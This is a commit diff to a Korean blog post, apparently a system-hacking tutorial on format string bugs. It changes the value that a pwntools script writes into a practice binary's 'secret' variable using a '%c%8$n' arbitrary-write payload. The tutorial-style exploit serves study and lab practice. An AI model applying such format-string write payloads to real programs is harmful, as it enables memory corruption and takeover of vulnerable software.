

Before and after one commit to Herrtane/Herrtane.github.io, a Jekyll site: the page built from _posts/SystemHacking/2022-10-06-systemhacking-formatstringbug.markdown, in a window 1280 px wide and 900 px high, scrolled down 5012 px. Shown: the part 250-658 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2022-10-06-systemhacking-formatstringbug.markdown

````diff
--- a/_posts/SystemHacking/2022-10-06-systemhacking-formatstringbug.markdown
+++ b/_posts/SystemHacking/2022-10-06-systemhacking-formatstringbug.markdown
@@ -223,7 +223,7 @@ printf("AAAA%n", &a);    // a = 4
 printf("AAAA%1$n", &a);  // a = 4, 1번째 인자에 씀
 ```
 
-이를 바탕으로, Secret에 내가 원하는 31337이라는 값을 쓰는 코드를 작성해보자.
+이를 바탕으로, Secret에 내가 원하는 9999이라는 값을 쓰는 코드를 작성해보자.
 
 ```python
 from pwn import *
@@ -233,7 +233,7 @@ p = process('./fsb_aaw')
 p.recvuntil(b'`secret`: ')
 secret_addr = int(p.recvline()[:-1].decode(),16)
 
-fstring = b'%31337c%8$n'.ljust(16)
+fstring = b'%9999c%8$n'.ljust(16)
 fstring += p64(secret_addr)
 
 p.sendline(fstring)
````
